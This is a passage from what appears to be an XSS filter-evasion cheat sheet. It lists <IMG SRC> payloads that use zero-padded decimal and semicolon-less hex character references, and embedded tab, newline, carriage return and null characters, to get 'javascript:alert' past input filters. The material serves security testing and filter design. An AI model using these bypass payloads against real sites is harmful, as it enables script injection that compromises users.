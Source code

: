 This is often effective in XSS that attempts to look for "&\#XX;", since most people don't know about padding - up to 7 numeric characters total. This is also useful against people who decode against strings like $tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a semicolon is required to terminate a HTML encoded string (I've seen this in the wild):

`<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>`

### Hexadecimal HTML Character References Without Trailing Semicolons

This is also a viable XSS attack against the above string $tmp\_string=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric character following the pound symbol - which is not true with hex HTML characters).

`<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>`

### Embedded Tab

Used to break up the cross site scripting attack:


`<IMG SRC="jav	ascript:alert('XSS');">`


### Embedded Encoded Tab

Use this one to break up XSS :

`<IMG SRC="jav&#x09;ascript:alert('XSS');">`

### Embedded Newline to Break-up XSS

Some websites claim that any of the chars 09-13 (decimal) will work for this attack. That is incorrect. Only 09 (horizontal tab), 10 (newline) and 13 (carriage return) work. See the ascii chart for more details. The following four XSS examples illustrate this vector:

`<IMG SRC="jav&#x0A;ascript:alert('XSS');">`

### Embedded Carriage Return to Break-up XSS

(Note: with the above I am making these strings longer than they have to be because the zeros could be omitted. Often I've seen filters that assume the hex and dec encoding has to be two or three characters. The real rule is 1-7 characters.):

`<IMG SRC="jav&#x0D;ascript:alert('XSS');">`

### Null breaks up JavaScript Directive

Null chars also work as XSS vectors but not like above, you need to inject them directly using something like Burp Proxy or use `%00` in the URL string or if you want to write your own injection tool you can either use vim (`^V^@` will produce a null) or the following program to generate it into a text file. Okay, I lied again, older versions of Opera (circa 7.11 on Windows) were vulnerable to one additional char 173 (the soft hyphen control char). But the null char `%00` is much more useful and helped me bypass certain real world filters with a variation on this example:
